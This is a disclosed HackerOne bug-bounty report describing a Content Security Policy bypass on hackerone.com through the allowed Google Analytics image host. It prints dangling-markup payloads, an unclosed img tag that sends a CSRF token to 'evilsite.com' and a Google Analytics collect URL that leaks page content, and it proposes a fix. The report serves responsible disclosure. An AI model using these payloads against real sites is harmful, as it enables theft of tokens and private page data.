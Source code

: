 # Google Analytics could be used as CSP bypass for data exfiltration on hackerone.com

## Report Details
- **Report ID**: 199779
- **URL**: https://hackerone.com/reports/199779
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-01-19T23:35:16.499Z
- **Disclosed**: 2017-03-26T08:17:54.922Z

## Reporter
- **Username**: aaron_costello
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
Greetings, I believe I may have found a way to bypass CSP on hackerone.com

The issue lies here:

```
img-src 'self' data: www.google-analytics.com
```

As you can imagine, how can image tags be used maliciously here to this safe site? Well, as you know, on google-analytics.com we have the ability to host user content.

Before we get into that, lets look at how image tags are processed.
Consider the following injected content:
```
<img src='https://evilsite.com/steal_csrf_token?html=
```
A tag with an unclosed quote will capture all output up to the next matching quote. This could include security sensitive content on pages in the following way,:
```
<img src='https://evilsite.com/steal_csrf_token?html=
<form action="https://coinbase.com/poc">

<input type="hidden" name="csrf_token" value="some_csrf_token_value">
</form>
```
The resulting image element will send a request to https://evilsite.com/steal_csrf_token?html=/log_csrf?html=...some_csrf_token_value....

As a result, an attacker can leverage this dangling markup attack to exfiltrate CSRF tokens to a site of their choosing.

The issue
----------

First take a look at Google Analytics. Imagine a content injection that looks something like:
```
< injection point >
<p>secret</p>
```
The Google Analytics’ ea parameter is used to log event actions and can contain arbitrary strings. An attacker could setup a Google Analytics account and then inject an image referencing their account:
```
<img src='https://www.google-analytics.com/collect?v=1&tid=UA-55300588-1&cid=3121525717&t=event&ec=email&el=2111515817&cs=newsletter&cm=email&cn=062413&cm1=1&ea=
<p>secret</p>
```
This results in the following request, logging “secret” to their account:
```
https://www.google-analytics.com/collect?v=1&tid=UA-77300477-1&cid=2111515817&t=event&ec=email&el=2111515817&cs=newsletter&cm=email&cn=062413&cm1=1&ea=%3Cp%3Esecret%3C/p%3E
```

The solution
-------------

Swap from using their image based system to an XHR based approach (https://developers.google.com/analytics/devguides/collection/analyticsjs/sending-hits#specifying_different_transport_mechanisms)





## Attachments
No attachments
